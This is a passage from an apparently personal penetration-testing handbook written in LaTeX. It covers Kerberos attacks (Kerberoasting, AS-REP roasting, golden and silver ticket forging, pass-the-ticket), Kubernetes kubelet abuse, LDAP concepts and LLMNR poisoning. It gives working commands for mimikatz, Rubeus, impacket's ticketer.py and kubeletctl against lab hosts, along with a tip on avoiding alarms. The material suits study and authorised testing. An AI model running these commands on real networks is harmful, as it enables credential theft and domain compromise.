will retrieve hashes that begin with \verb+$krb5tgs$23$*+, an RC4 (type 23)
encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash
or hash that begins with \verb+$krb5tgs$18$*+. While it is possible to crack
AES-128 (type 17) and AES-256 (type 18) TGS tickets using Hashcat, it will
typically be significantly more time consuming than cracking an RC4 (type 23)
encrypted ticket, but still possible especially if a weak password is chosen.

Let's walk through an example.
\begin{verbatim}
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,`
    msds-supportedencryptiontypes
\end{verbatim}
\verb+msDS-SupportedEncryptionTypes+ value (see
    \href{https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797}{chart}:
\begin{itemize}
    \item 0: pecific encryption type is not defined and set to the default of
        \verb+RC4_HMAC_MD5+.
    \item 24: meaning that AES 128/256 encryption types are the only ones
    supported. (hashcat mode 19700)
\end{itemize}

We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4
encryption when requesting a new service ticket. The tool does this by
specifying RC4 encryption as the only algorithm we support in the body of the
TGS request. This may be a failsafe built-in to Active Directory for backward
compatibility. By using this flag, we can request an RC4 (type 23) encrypted
ticket that can be cracked much faster.

{\bf Note}: This does not work against a Windows Server 2019 Domain Controller,
regardless of the domain functional level. It will always return a service
ticket encrypted with the highest level of encryption supported by the target
account. This being said, in a domain with Domain Controllers running on Server
2016 or earlier (which is quite common), enabling AES will not partially
mitigate Kerberoasting by only returning AES encrypted tickets, which are much
more difficult to crack, but rather will allow an attacker to request an RC4
encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption
on an SPN account will result in us receiving an AES-256 (type 18) service
ticket, which is substantially more difficult (but not impossible) to crack,
especially if a relatively weak dictionary password is in use.

\subsubsection{Efficacy of the Attack}
Kerberoasting and the presence of SPNs do not guarantee any level of access.
There might be environment where a cracked TGS ticket grand Domain Admin
access straightway or provide credentials that help move down the path to
domain compromise. In other environment none of the ones that crack are for
privileged users, and the attack does not allow any additional access. 

Another case the attack can end up with non crackable TGS.

\subsubsection{Mitigation}
Use group managed service accounts~\ref{windows_knowledge:ad:security:gMSA}

To detect this attack, your only  native option is to monitor for event ID
4769, and look for a Ticket  Encryption Type of 0x17 - user to user
\verb+krb_tgt_reply+. You can find more  information on detecting Kerberoast attacks here.

\url{https://www.trustedsec.com/blog/art_of_kerberoast/}

\url{https://www.youtube.com/watch?v=PUyhlN-E5MU}

Some services are better than the other since due to performance they will not
check PAC signature against Kerberos. 

MSSQL is a good candidate and grant code execution on the target SQL server
(\verb+xp_cmdshell+)

try not to request all TGC since it will raise alarms.

Identify weak passwords SPNs 

\subsection{ASREPRoasting}
\label{kerberos:asrepraosting}
\emph{AS-REProasting} is an offensive  technique against Kerberos that allows
password hashes to be retrieved  for users that do not
\href{https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory}{require
pre-authentication}. In such a case an attacker can  recover a Kerberos
\verb+AS-REP+ encrypted with the users RC4-HMAC’d password  and he can attempt to crack this ticket offline.

Pre-authentication is the initial stage  in Kerberos authentication, which is
managed by the KDC Authentication  server and is meant to prevent brute-force
attacks.

\verb+GenericWrite+ or \verb+GenericAll+ permissions over an account, they can
enable this attribute and obtain the AS-REP ticket for offline cracking to
recover the account's password before disabling the attribute again. Like
Kerberoasting, the success of this attack depends on the account having a
relatively weak password.

\begin{verbatim}
Set-DomainObject -Identity SAMAN -XOR @{useraccountcontrol=4194304} -Verbose
\end{verbatim}

\subsubsection{Enumeration of the users}
\begin{itemize}
    \item 
        \verb+Get-ADUser+~\ref{tool:wlol:ad:get-ADUser} 
    \item 
        \verb+Get-DomainUser+~\ref{tool:powerview} with \verb+-PreauthNotRequired+
    \item 
        \verb+Rubeus asreproast /format:hashcat+ or \verb+Rubeus.exe preauthscan /users:uns.txt /domain:semperis.lab /dc:192.168.71.220+
    \item
        Powerview~\ref{tool:powerview}: \verb+Get-DomainUser -UACFilter DONT_REQ_PREAUTH+
    \item 
        kerbrute~\ref{tool:kerbrute:user-enum} flag such account during user enumeration.
    \item 
        cme~\ref{tool:crackmapexec:smb:asreproast}
    \item 
        or GetNPUsers.py~\ref{tool:impacket:GetNPUsers} from impacket
\end{itemize}

\subsubsection{Getting hashes On windows}

rubeus~\ref{tool:rubeus:asreproast}

\subsubsection{Getting hashes On linux}

metasploit: 
\begin{verbatim}
      upload /root/ASREPROAST.ps1 .
      powershell
      Import-Module .\ASREPRoast.ps1
      Invoke-ASREPRoast
\end{verbatim}


impacket~\ref{tool:impacket:GetNPUSers}:

\begin{verbatim}
GetNPUsers.py egotistical-bank.local/fsmith -request -no-pass -dc-ip 10.10.10.175
\end{verbatim}


\subsubsection{Set DONT\_REQ\_PREAUTH}

Powerview:
\begin{verbatim}
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose
\end{verbatim}


\subsection{Golden Ticket Attack}
\label{kerberos:golden-ticket}
\url{https://en.hackndo.com/kerberos-silver-golden-tickets/}
\url{https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/}

A \href{https://attack.mitre.org/techniques/T1558/001/}{golden  ticket} is a forged Kerberos key distribution center. You can create  usable Kerberos tickets for accounts that do not exist in the Active  Directory. 
To obtain a Golden ticket, an attacker needs  domain/local administrator access on Active Directory forest or domain –  and once the ticket is created, it is good for 10 years by default!
If  you believe that someone created an unauthorized golden ticket, you  would need to reset the Kerberos service account, krbtgt. While this  isn't difficult, there are several critical steps to the process. 
Because  Active Directory stores the old and current passwords for all accounts,  you must reset the krbtgt account twice. But the second reset should  occur only after waiting the maximum user ticket lifetime after the first password reset. Microsoft provides a handy script to assist with this here.


\subsection{Silver Ticket Attack}
\url{https://en.hackndo.com/kerberos-silver-golden-tickets/}

Silver tickets are forged TGS. A silver ticket is similar to a Golden Ticket,
but does not have the broad administrative privileges of the golden ticket. 

An attacker would typically only gain access to a single service on an
application, and an attacker must have compromised legitimate user  credentials
.

What  makes these attacks very difficult to detect is that forging a silver
ticket (for example using the service account password hash) does not  require
any communication with a DC.

\url{https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#kerberoast}

Whatever the circumstances, once an attacker has a foothold on a  single
network system, they can start laying the groundwork for forging a  Kerberos
Silver Ticket. This involves:
\begin{enumerate}
        \item Conduct reconnaissance to gather information about the domain,
            such as the domain name and domain security identifier (SID), both
            of which are relatively easily obtained by a whoami command on
            Windows.
        \item Obtain the DNS name under which the service principal name (SPN)
            for the targeted, local service they wish to attack is registered
            as well as the service type.
        \item Use Mimikatz~\ref{tool:mimikatz} or a similar
            tool to obtain the local NTLM passworda
            (or password hash) for the Kerberos service running on the
            compromised system, for example: Windows file share, SQL, email,
            Microsoft Sharepoint and so on. Service password hashes can be
            obtained from a number of sources on a compromised local system.
            For example, they can be dumped from the local computer’s Security
            Account Manager (SAM) or local service account.
        \item Obtain the unencrypted password for the service. These can be
            obtained from the hash using methods like offline cracking
            (“Kerberoasting”) to obtain the unencrypted password data.
        \item Use Mimikatz, ticketer~\ref{tool:impacket:tickerter} from
            impacket  or a similar tool to forge a Kerberos Ticket
            Granting Service (TGS) ticket allowing the attacker to authenticate
            to the targeted service.
        \item Authenticate to the local service directly using the credentials
            and forged TGS.
        \item Manipulate the TGS to elevate the attacker’s permissions to that
            of Domain Administrator.
\end{enumerate}


\subsection{Windows}

\begin{verbatim}
> Import-Module .\PowerView.ps1 ; Get-DomainSID
> mimikatz.exe "kerberos::golden /domain:inlanefreight.local 
    /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 
    /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local 
    /service:cifs  /ptt" exit

# NOTE TO PSEXEC 
# EXPORT THE TICKET 
# CREATE A SACRIFICIAL PROCESS AND IMPORT THE TICKET
\end{verbatim}


\subsubsection{Workflow on Linux}

\begin{itemize}
    \item set hosts:
\begin{verbatim}
echo 10.129.205.36 dc1 dc1.scrm.local scrm.local | sudo tee -a /etc/hosts
\end{verbatim}

    \item get domain SID:
\begin{verbatim}
lookupsid.py scrm.local/ksimpson:ksimpson@dc01.scrm.local -domain-sids
\end{verbatim}
        
    \item find a service:
\begin{verbatim}
GetUserSPNs.py scrm.local/ksimpson:ksimpson -k  -dc-ip dc1.scrm.local
\end{verbatim}

    \item Get it's info
\begin{verbatim}
$ GetUserSPNs.py scrm.local/ksimpson:ksimpson  -k  \
    -request-user sqlsvc  -outputfile sqlsvc.hash  \
    -dc-ip dc1.scrm.local
\end{verbatim}

    \item crack the password
\begin{verbatim}
$ john --wordlist=/usr/share/wordlists/passwords/rockyou.txt sqlsvc.hash
$ john --show sqlsvc.hash
\end{verbatim}
    \item Generate the NT hash from the password using for exemple
        \href{https://codebeautify.org/ntlm-hash-generator}{NTLM Hash
        Generator} (\verb+B999A16500B87D17EC7F2E2A68778F05+)
    \item Get domain SID using \verb+getPAC.py+
\begin{verbatim}
$ getPac.py -targetUser ksimpson scrm.local/ksimpson:ksimpson 
.. .
.. .
Domain SID: S-1-5-21-2743207045-1827831105-2542523200
\end{verbatim}   
    \item Identify the SID to impersonate using
        \href{https://morgantechspace.com/2013/10/difference-between-rid-and-sid-in.html}{Well
        Known SIDs} let say Administrator (500)
    \item Create the ticket
\begin{verbatim}
$ ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 \
    -domain-sid S-1-5-21-2743207045-1827831105-2542523200 \
    -domain scrm.local \
    -spn MSSQLSvc/scrm.local \
    -user-id 500 Administrator
\end{verbatim}
\end{itemize}






\section{Backdoor skeleton key malware attack}
\url{https://www.hackingarticles.in/domain-controller-backdoor-skeleton-key}



In  a backdoor skeleton key malware attack, the attacker typically has  compromised the Domain Controller and executed a successful Golden  Ticket attack. 
The malware injects into LSASS a master password  that would work against any account in the domain. When the account  authenticates, the malware will check the injected master password hash,  and if it's a match will authenticate the user, regardless of the  user's true password. Legitimate users will still be able to log in with  their normal credentials.

\subsection{OverPass the Hash / Pass the Key}
\href{https://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash}{Overpass-the-hash
par Gentil Kiwi in french}

\href{https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18}{Abusing
Microsoft Kerberos - Sorry you guys don't get it}

This attack aims to use the user NTLM hash or AES keys to request Kerberos
tickets, as an alternative to the common Pass The Hash over NTLM protocol.
Therefore, this could be especially useful in networks where NTLM protocol is
disabled and only Kerberos is allowed as authentication protocol.

In order to perform this attack, the NTLM hash (or password) of the target user
account is needed. Thus, once a user hash is obtained, a TGT can be requested
for that account. Finally, it is possible to access any service or machine
where the user account has permissions.


\subsubsection{From Windows}






\subsubsection{From Linux}

\begin{verbatim}
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
\end{verbatim}


\section{Lateral mouvement}

\subsection{Pass the ticket}
\label{network:kerberos:ptt}
In  this attack, the threat actor creates a fake session key by forging a  fake
TGT. The attacker will present this to the service as a valid  credential.

In order to execute this attack, the attacker must obtain access to the
session key. To perform this attack, an attacker  would obtain Kerberos tickets
from the memory of the LSASS process, and  then inject the stolen TGT into
their own session, which will let them  adopt the identity and privileges of
the stolen TGT.




\url{https://www.hackingarticles.in/lateral-movement-pass-the-ticket-attack/}

\url{https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/}

\url{https://www.hackingarticles.in/lateral-movement-pass-the-ccache/}

\subsubsection{From Windows}

ticket are exported using either mimikatz or rubeus

\subsubsection{From Linux}





\section{Replay attack}
A  replay attack occurs if an attacker steals the packet sent from the  user to the service, which they can then use to gain access to the  service without knowing the user's credentials. 
This is generally  low risk and is mitigated by the system checking the timestamp of the  packet - any timestamp earlier or the same as a previous packet is  rejected, as well as any timestamp out of sync with the server time by  over 5 minutes.


\section{Relay attack}

\begin{itemize}
    \item 
        \href{https://github.com/cube0x0/KrbRelay}{krbrelay} \href{https://github.com/ShorSec/KrbRelayUp}{krbrelayup}
    \item 
        \href{https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html}{Using Kerberos for Authentication Relay Attacks}
    \item 
        \href{https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/}{Relaying Kerberos over DNS using krbrelayx and mitm6 }
\end{itemize}






\chapter{Kubernetes}

\section{Introduction}

\section{Tools}

\subsection{kubectl}
\href{https://kubernetes.io/docs/reference/kubectl/cheatsheet/}{Official
cheatsheet}
\begin{verbatim}
$ alias kubectlz="kubectl --token=$TOKEN --server=https://10.10.11.133:10250 \
        --insecure-skip-tls-verify=true"

$ kubectlz auth can-i --list

$ kubectlz get pods
\end{verbatim}

\subsection{kubeletctl}
\href{https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster}{Using
Kubelet Client to Attack the Kubernetes Cluster}

download binary from \url{https://github.com/cyberark/kubeletctl}

\begin{verbatim}
$ ./kubeletctl -s 10.10.11.133 configs
$ ./kubeletctl -s 10.10.11.133 pods
$ ./kubeletctl -s 10.10.11.133 scan token
$ ./kubeletctl -s 10.10.11.133 scan rce
$ ./kubeletctl -s 10.10.11.133 run "ls /" -p nginx -c nginx
$ ./kubeletctl -s 10.10.11.133 exec "ls /" -p nginx -c nginx
\end{verbatim}


\subsection{kube-hunter}
\begin{verbatim}
$ kube-hunter --remote 10.10.11.133
\end{verbatim}

\subsection{kubeaudit}
\href{https://github.com/Shopify/kubeaudit}{kubeaudit} is a command line tool and a Go package to audit Kubernetes clusters for various different security concerns, such as:
\begin{itemize}
    \item run as non-root
    \item use a read-only root filesystem
    \item drop scary capabilities, don't add new ones
    \item don't run privileged
    \item and more!
\end{itemize}



\section{links}
\begin{itemize}
    \item
        \href{https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting}{Kubernetes
        Pentesting}
    \item \href{https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions}{Risky Permissions}
    \item \href{https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1}{Methodology Part 1}
    \item \href{https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-2}{Methodology Part 2}
    \item \href{https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3}{Methodology Part 3}
    \item
        \href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Kubernetes}{PayloadsAllTheThings}
\end{itemize}

\chapter{LDAP}

\section{Introduction}
The Lightweight Directory Access Protocol (LDAP) is an open-source application
protocol that allows applications to access and authenticate specific user
information across directory services.

LDAP works on both public networks and private intranets and across multiple
directory services, making it the most convenient language for accessing,
modifying, and authenticating information in any directory.

LDAP and Active Directory are not the same, they work together to connect
clients to servers.

LDAP is the language that Microsoft Active Directory understands. In order to
access or authenticate any data stored on Active Directory, the LDAP protocol
is used by Exchange Server to communicate with the target server.

\subsection{Protocol}

When a user or an application requests information from a server, the following
high-level sequence is initiated:
\begin{enumerate}
    \item Client connects to the Directory System Agent (DSA) through TCP/IP port 389 to commence an LDAP session.
    \item A connection between the client and server is established.
    \item Data is exchanged between the server and the client.
\end{enumerate}

iThe data exchange process in step 3 varies depending on the specific LDAP
operations being requested. Many functions are possible with LDAP, through 4
primary operators:
\begin{itemize}
    \item  Add - Inserts a new entry into the directory-to-server database.
    \item  Bind -  Authenticates clients to the directory server.
    \item  Delete - Removes directory entires.
    \item  Modify - Used to request changes to existing directory entries. Changes could either be Add, Delete, or Replace operations.
    \item  Unbind - Terminates connections and operations in progress (this is an inverse of the Bind operation).
\end{itemize}


\url{https://ldapwiki.com/wiki/LDAP%20Query%20Examples%20for%20AD#section-LDAP+Query+Examples+for+AD-ActiveDirectorySearchOverview}

\url{https://learn.microsoft.com/en-us/windows/win32/adschema/active-directory-schema}

\url{https://learn.microsoft.com/en-us/windows/win32/ad/searching-in-active-directory-domain-services}

\subsection{Basic concepts}
\subsubsection{Directory server}
A directory server (more technically referred to as a {\bf Directory Server
Agent}, a {\bf Directory System Agent}, or a {\bf DSA}) is a type of network
database that stores information represented as trees of entries. Directory servers may be considered a type of NoSQL database.

While virtually all directory servers support LDAP, some servers offer support
for additional protocols that can be used to interact with the data. Some of
these protocols include X.500, naming service protocols like DNS and NIS,
HTTP-based protocols like DSML and SCIM, and proprietary protocols like
Novell’s NDS.

The Directory System Agent stores data in a hierarchical structure, starting
from the Root Object and unfolding into multiple items at each successive
layer.

Each subsequent level is known as an {\bf Object Class} (OU, DC, Person,\ldots)
and the items within each class are known as {\bf Container Objects} since they
contain other objects.

The directory {\bf schema} consists of multiple attributes identifying its
hierarchical relationships.

\subsubsection{Entries}
An LDAP entry is a collection of information about an entity. Each entry
consists of three primary components: 
\begin{itemize}
    \item a distinguished name,
    \item a collection of attributes
    \item a collection of object classes.
\end{itemize}

\subsubsection{DNs and RDNs}
An entry’s {\bf distinguished name (DN)} uniquely
identifies that entry and its position in the {\bf directory information tree
(DIT)} hierarchy. The DN of an LDAP entry is much like the path to a file on a
filesystem.

An LDAP DN is comprised of zero or more elements called {\bf relative
distinguished names (RDN)}. Each RDN is comprised of one or more (usually just
one) attribute-value pairs. For example, \verb+uid=john.doe+ represents an RDN
comprised of an attribute (object class) named \verb+uid+ with a value of
\verb+john.doe+. If an RDN has multiple attribute-value pairs, they are
separated by plus signs, like \verb-givenName=John+sn=Doe-.

The special distinguished name comprised of zero RDNs is sometimes called the
“null DN” and references a special type of entry called the {\bf root DSE}
which provides information about the content and capabilities of the directory
server. See \href{https://ldap.com/dit-and-the-ldap-root-dse/}{DIT and the LDAP
Root DSE} for more information about the root DSE entry.

For DNs with multiple RDNs, the order of the RDNs specifies the position of the
associated entry in the DIT. RDNs are separated by commas, and each RDN in a DN
represents a level in the hierarchy in descending order (i.e., moving closer to
the root of the tree, which is called the naming context). That is, if you
remove an RDN from a DN, you get the DN of the entry considered the parent of
the former DN. 

RDNs must always be unique within the container in which they exist.

\subsubsection{Attributes}
Attributes hold the data for an entry. Each attribute has:
\begin{itemize}
        \item an attribute type
        \item zero or more attribute options
        \item a set of values that comprise the actual data. 
\end{itemize}

{\bf Attribute types} are {\bf schema} elements that specify how attributes
should be treated by LDAP clients and servers. All attribute types must have an
{\bf object identifier (OID)} and zero or more {\bf names} that can be used to
reference attributes of that type. They must also have an {\bf attribute
syntax}, which specifies the type of data that can be stored in attributes of
that type, and a set of {\bf matching rules}, which indicate how comparisons
should be performed against values of attributes of that type. Attribute types
may also indicate its {\bf cardinailty} (allow to have multiple values in the
same entry), and whether the attribute is intended for holding user data (a
{\bf user attribute}) or is used for the operation of the server (an {\bf
operational attribute}). Operational attributes are typically used for
configuration and/or state information.

{\bf Attribute options} are not used all that often, but may be used to provide
some metadata about an attribute. For example, attribute options may be used to
provide different versions of a value in different languages.

See \href{https://ldap.com/understanding-ldap-schema/}{Understanding LDAP
Schema} for more information on attribute types, syntaxes, matching rules, and
other types of schema elements. 

\subsubsection{Object Classes}
 Object classes are schema elements that specify collections of attribute types
 that may be related to a particular type of object, process, or other entity.
 Every entry has a structural object class, which indicates what kind of object
 an entry represents (e.g., whether it is information about a person, a group,
 a device, a service, etc.), and may also have zero or more auxiliary object
 classes that suggest additional characteristics for that entry.

Like attribute types, object classes must have an object identifier, but they
may also have zero or more names. Object classes may also list a set of
required attribute types (so that any entry with that object class must also
include those attributes) and/or a set of optional attribute types (so that any
entry with that object class may optionally include those attributes).

See \href{https://ldap.com/understanding-ldap-schema/}{Understanding LDAP
Schema} for more information on object classes and other types of schema
elements. 

\subsubsection{Object Identifiers (OIDs)}
An object identifier (OID) is a string that is used to uniquely identify
various elements in the LDAP protocol, as well as in other areas throughout
computing. OIDs consist of a sequence of numbers separated by periods (e.g.,
\verb+1.2.840.113556.1.4.473+ is the OID that represents the server-side sort
request control). In LDAP, OIDs are used to identify things like schema
elements (like attribute types, object classes, syntaxes, matching rules,
etc.), controls, and extended requests and responses. In the case of schema
elements, there may also be user-friendly names that can be used in place of
OIDs.

See \href{https://ldap.com/understanding-ldap-schema/}{Understanding LDAP
Schema} for a discussion on the use of OIDs in schema. See the
\href{https://ldap.com/ldap-oid-reference-guide/}{LDAP OID Reference Guide} for
a listing of a number of OIDs used in LDAP.

\subsubsection{Search Filters}
Search filters are used to define criteria for identifying entries that contain certain kinds of information. There are a number of different types of search filters:
\begin{itemize}
  \item   Presence filters may be used to identify entries in which a specified
      attribute has at least one value.
    \item   Equality filters may be used to identify entries in which a
        specified attribute has a particular value.
  \item   Substring filters may be used to identify entries in which a
      specified attribute has at least one value that matches a given
      substring.
  \item   Greater-or-equal filters may be used to identify entries in which a
      specified attribute has at least one value that is considered greater
      than or equal to a given value.
  \item   Less-or-equal filters may be used to identify entries in which a
      specified attribute has at least one value that is considered less than
      or equal to a given value.
  \item   Approximate match filters may be used to identify entries in which a
      specified attribute has a value that is approximately equal to a given
      value. Note that there is no official definition of “approximately equal
      to”, and therefore this behavior may vary from one server to another.
      Some servers use a “sounds like” algorithm like one of the Soundex or
      Metaphone variants.
  \item   Extensible match filters may be used to provide more advanced types
      of matching, including the use of custom matching rules and/or matching
      attributes within an entry’s DN.
  \item   AND filters may be used to identify entries that match all of the
      filters encapsulated inside the AND.
  \item   OR filters may be used to identify entries that match at least one of
      the filters encapsulated inside the OR.
  \item   NOT filters may be used to negate the result of the encapsulated
      filter (i.e., if a filter matches an entry, then a NOT filter
      encapsulating that matching filter will not match the entry, and if a
  filter does not match an entry, then a NOT filter encapsulating that
  non-matching filter will match the entry).
\end{itemize}


The logic used to perform the matching is encapsulated in matching rules, which
are specified in attribute type definitions. Different matching rules may use
different logic for making the determination. For example, the
\verb+caseIgnoreMatch+ matching rule will ignore differences in capitalization
when comparing two strings, while the \verb+caseExactMatch+ matching rule will
not. Many matching rules are specific to certain data types (e.g., the
\verb+distinguishedNameMatch+ matching rule expects to operate only on values
that are DNs and can do things like ignore insignificant spaces between DN and
RDN components, ignore differences in the order of elements in a multivalued
RDN, etc.).

See the \href{https://ldap.com/ldap-filters/}{LDAP Filters} page for a more
complete discussion of LDAP filters and their string representations. See the
\href{https://ldap.com/the-ldap-search-operation/}{LDAP Search Operation} page
for more information about search operations. See the
\href{https://ldap.com/understanding-ldap-schema/}{Understanding LDAP Schema}
page for more information about matching rules and other schema elements.

\subsubsection{Search Base DNs and Scopes}

 All search requests include a base DN element, which specifies the portion of
 the DIT in which to look for matching entries, and a scope, which specifies
 how much of that subtree should be considered. The defined search scopes
 include:
 \begin{itemize}
     \item  The {\bf baseObject scope} (often referred to as just {\bf
         \verb+base+}) indicates that only the entry specified by the search
         base DN should be considered.
     \item  The {\bf singleLevel scope} (often referred to as {\bf \verb+one+}
         or {\bf \verb+onelevel+}) indicates that only entries immediately below
         the search base DN (but not the base entry itself) should be
         considered.
     \item  The {\bf wholeSubtree scope} (often referred to as {\bf
         \verb+sub+}) indicates that the entry specified as the search base DN
         and all entries below it (to any depth) should be considered.
     \item  The {\bf subordinateSubtree scope} indicates that all entries below
         the search base DN (to any depth), but not the search base entry
         itself, should be considered.
 \end{itemize}

See the \href{https://ldap.com/the-ldap-search-operation/}{The LDAP Search
Operation} for more information about the components and behavior of an LDAP
search operation.a

\subsubsection{Modifications and Modification Types}
 LDAP clients may use a modify request to make changes to the data stored in an
 entry. A modify request specifies the DN of the entry to update and a list of
 the modifications to apply to that entry. Each modification has a modification
 type, an attribute name, and an optional set of attribute values.

The defined modification types include:

 \begin{itemize}
     \item  The {\bf add modification type} indicates that one or more
         attribute values should be added to the entry. This may be used to add
         a completely new attribute, or to add new values to an existing
         attribute. It is always necessary to specify at least one attribute
         value for an add modification type.
     \item  The {\bf delete modification type} indicates that one or more
         attribute values, or an entire attribute, should be removed from the
         entry. If a delete modification includes one or more attribute values,
         then only those values will be removed. If a delete modification does
         not include any values, then the entire attribute will be removed.
     \item  The {\bf replace modification type} indicates that the set of
         values for a specified attribute should be replaced with a new set
         (which may or may not include values already present in the entry). If
         a replace modification has one or more attribute values, then those
         values will be used for the associated attribute. If a replace
         modification does not have any values, then the associated attribute
         will be removed from the entry, if it exists.
     \item  The {\bf increment modification type} indicates that the integer
         value for the specified attribute should be increased by the specified
         amount (or decreased if the increment value is negative).
 \end{itemize}

 See The \href{https://ldap.com/the-ldap-modify-operation/}{LDAP Modify
 Operation} for more information about the components and behavior of an LDAP
 modify operation. 

\subsubsection{LDAP URLs}
 An LDAP URL encapsulates a number of pieces of information that may be used to
 reference a directory server, a specific entry in a directory server, or
 search criteria to identify matching entries within a directory server. LDAP
 URLs are most frequently used in referrals, and in some client APIs they may
 be used to specify some properties for establishing connections.a


 See the \href{https://ldap.com/ldap-urls/}{LDAP URLs} page for more
 information about the contents and string representation of LDAP URLs.

\subsubsection{Controls}
 A control is a piece of information that can be included in an LDAP request or
 response to provide additional information about that request or response, or
 to change the way that it should be interpreted by the server (in the case of
 a request) or client (in the case of a response). For example, the server-side
 {\bf sort request control} can be included in a search request to indicate
 that the server should sort the matching entries in a particular way before
 sending them to the client.

LDAP controls have three elements:
\begin{itemize}
    \item  An object identifier (OID) that uniquely identifies the type of
        control. This is a required element.
    \item  A criticality. This is a flag that indicates how the server should
        behave if it does not recognize a provided request control, or if it
        cannot support the control in the context in which it was requested. A
        criticality of “true” indicates that the control is a critical part of
        the request, and that the server should reject the request if it cannot
        support the control. A criticality of “false” indicates that the
        control is more a “nice to have” part of the request, and that if the
        server cannot support the control then it should go ahead and process
        the operation as if the control had not been included. The criticality
        does not come into play if the server does support the control within
        the context of the request.
    \item  An optional value, which can provide additional information for use
        in processing the control. For example, for a server-side sort request
        control, the control value should specify the desired sort order. The
        encoding for a control varies based on the type of control.
\end{itemize}


\subsubsection{Referrals}
 A referral is a type of LDAP response that indicates that the server could not
 process the requested operation, but suggests that the request might succeed
 if you try it somewhere else (e.g., in a different server, and/or in a
 different location in the DIT). Referrals may be returned for a number of
 reasons, including:
 \begin{itemize}
    \item The client requested an operation that targeted an entry that did not
        exist in the server to which the connection was established, but the
        server was able to suggest where that entry might be.
    \item The client requested an operation that targeted an entry that did
        exist in the server, but the server is currently unable to process that
        request for some reason. For example, the client sent a write request
        to a read-only replica, and the replica was able to redirect the
        request to a writeable server.
    \item The data includes a special type of referral entry (sometimes called
        a “smart referral”) that causes the server to generate a referral based
        on the contents of that entry whenever a client requests something at
        or below it.
\end{itemize}

In addition to referral operation results, there is a related type of response
for search operations called a search result reference, which may be used to
indicate that part of the search may be conducted in a different server. This
is particularly useful in cases where the data set is too large to fit in one
server, and different portions of the DIT are broken up across different
servers. 

\subsubsection{Alias Entries}

 An alias entry is a special kind of entry that points to another entry in the
 DIT, much in the same way as a symbolic link points to another file on the
 filesystem.

Alias entries are primarily beneficial for search operations, in that it can be
used to make an entry in one location of the DIT to appear to be in another
location. This can be useful, for example, in cases in which the existence of
an entry in a particular subtree is used to make some determination like group
membership or as a means of signifying authorization for some purpose. Search
requests include an element that indicate how any aliases encountered during
the search should be handled.

Non-search operations that target an alias entry will not follow the alias. An
alias cannot be used as the target identify for a bind operation. Aliases must
be leaf entries, because it is not possible to add an entry below an alias
entry.

Note that not all directory servers support aliases. 

\section{Enumeration}

section{Man-in-the-middle attack}

\section{Brute-force attack}

\section{Post exploitation tools}





\chapter{Link-Local Multicast Name Resolution (LLMNR)}

\section{Introduction}
Link-Local Multicast Name Resolution (LLMNR) NetBIOS Name Service (NBT-NS)
are Microsoft Windows components that serve as alternate methods of host
identification that can be used when DNS fails. If a machine attempts to
resolve a host but DNS resolution fails, typically, the machine will try to ask
all other machines on the local network for the correct host address via LLMNR.
LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the
same local link to perform name resolution for other hosts. 

It uses port 5355 over UDP natively. 

If LLMNR fails, the NetBIOS Name Service (NBT-NS) will be used. 

The kicker here is that when LLMNR iis used for name resolution, ANY host on
the network can reply.


This is where we come in with Responder to poison these requests. With network access, we can spoof an authoritative name resolution source ( in this case, a host that's supposed to belong in the network segment ) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host. This poisoning effort is done to get the victims to communicate with our system by pretending that our rogue system knows the location of the requested host. If the requested host requires name resolution or authentication actions, we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password. The captured authentication request can also be relayed to access another host or used against a different protocol (such as LDAP) on the same host. LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain. SMB Relay attacks will be covered in a later module about Lateral Movement.
\section{Identification}

\section{Spoofing / Man-in-the-middle}
\label{network:llmnr:spoofing}
\subsection{Responder}
Responder~\ref{tool:responder} is a tool for performing a man-in-the-middle attack against authentication methods in Windows. This program includes the LLMNR, NBT-NS and MDNS poisoner, thanks to which traffic is redirected with requests and authentication hashes. The program also includes HTTP/SMB/MSSQL/FTP/LDAP authentication rogue servers that support authentication methods such as NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and basic HTTP authentication, for which the Responder acts as a relay.

\subsection{Metasploit}
\verb+auxiliary/spoof/llmnr/llmnr_response+


\chapter{MongoDB}
\href{https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb}{link}

\chapter{MSRPC: Microsoft Remote Procedure Call}

\url{https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc}

\url{https://0xffsec.com/handbook/services/msrpc/}

\section{Itroduction}
\href{https://en.wikipedia.org/wiki/Microsoft_RPC}{MSRPC (Microsoft Remote
Procedure Call)} is a protocol commonly related to SMB.  RPC provides an
